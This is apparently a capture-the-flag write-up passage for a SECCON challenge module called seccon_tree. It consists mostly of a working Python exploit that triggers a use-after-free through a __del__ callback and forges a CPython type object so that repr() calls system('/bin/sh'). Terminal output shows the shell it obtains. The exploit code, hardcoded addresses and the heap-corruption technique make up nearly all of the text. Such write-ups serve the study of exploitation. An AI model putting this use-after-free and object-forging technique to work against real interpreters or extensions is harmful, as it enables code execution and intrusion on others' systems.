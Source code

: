 The following code gets us a shell:

```python
from seccon_tree import Tree

root = Tree('x')

dangling_ref = None

def p64(x):
    return x.to_bytes(8, 'little')

class X:
    def __del__(self):
        global dangling_ref
        print("[+] Triggering UAF")
        dangling_ref = root.get_child_left()

def trigger():
    root.add_child_left(Tree(X()))
    root.add_child_left(Tree(None))

trigger()

print(dangling_ref)
a = bytearray(40)

# This is a bit messy but putting the constants in variables 
# seems to do heap things.. which is not desirable.

# 0x956900: pointer to the type of PyObjectType itself
# 0x4214f0: pointer to the system routine
    
r = p64(0xc) + p64(0x956900) + 2 * p64(0) + p64(0x28) + 6 * p64(0) + p64(0x4214F0) + 12 * p64(0) 

print(hex(id(r))) # print address of `r`


# Overwrite refcount of dangling_ref to be ".bin/sh;"
# repr will actually increase the reference count by one, so '.' + 1 = '/'
a[0:8] = b".bin/sh;"


# Set the PyObjectType pointer of dangling_ref to the values of `r` we declared above.
# The values start 0x20 bytes into the PyBytes object.
a[8:16] = p64(id(r) + 0x20)

repr(dangling_ref) # trigger system("/bin/sh;")
```

```
user@c19c5a5d3718:/exp$ ./python3.9x poc.py 
[+] Triggering UAF
<seccon_tree.Tree object at 0x7f33add45ea0>
0x7f33ade125d0
$ id
uid=1000(user) gid=999(user) groups=999(user)
$ 
```
